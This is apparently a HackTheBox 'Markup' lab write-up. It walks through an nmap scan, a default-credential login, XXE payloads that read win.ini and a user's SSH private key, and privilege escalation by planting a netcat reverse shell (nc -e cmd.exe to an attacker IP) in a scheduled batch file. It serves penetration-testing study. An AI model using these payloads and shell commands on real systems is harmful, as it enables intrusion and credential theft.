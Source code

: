 ```yaml
---
title: "Markup - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - very
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Markup
![](https://kar0nx.github.io/assets/images/writeup/619fa91801ba0956c435db03ab267118.png)
## Reconnaissance

IP: 10.129.163.247
## NMAP

```
nmap -T4 -p- -A 10.129.163.247
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-27 07:03 CDT
Nmap scan report for 10.129.163.247
Host is up (0.077s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
|_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaShopping
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| tls-alpn: 
|_  http/1.1
|_http-title: MegaShopping
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   76.60 ms 10.10.14.1
2   76.93 ms 10.129.163.247

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.67 seconds
```

3 open ports start with enumerating website

## Website
### Site

We were able to log in with commonly used creds admin:password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827140427.png)

I found that services was modified by Daniel so we have second valid user.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827141234.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827140849.png)

In burp I spot that application takes xml so tried xee injection

## XEE XXE

```
<!DOCTYPE foo [<!ENTITY example SYSTEM "file:///c:/windows/win.ini"> ]>
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827140835.png)

It is working so navigate to daniel ssh key and copy it to our machine

```
<!DOCTYPE foo [<!ENTITY example SYSTEM "file:///c:/users/daniel/.ssh/id_rsa"> ]>
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827141019.png)

## Gaining access

We have ssh access to windows machine so enumerate for some clues to root access

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827141149.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827141337.png)

Bat script run ass Administrator wevtutil.exe service every minute and we have Full access to this script.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827141504.png)

## Privilege Escalation

Downloading nc to machine and editing job.bat file will give us administrator access to machine.

```
wget http://10.10.14.65:8000/nc64.exe -outfile nc.exe

echo C:\Log-Management\nc.exe -e cmd.exe 10.10.14.65 4444 > C:\Log-Management\job.bat
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827142657.png)

Now we can take root flag.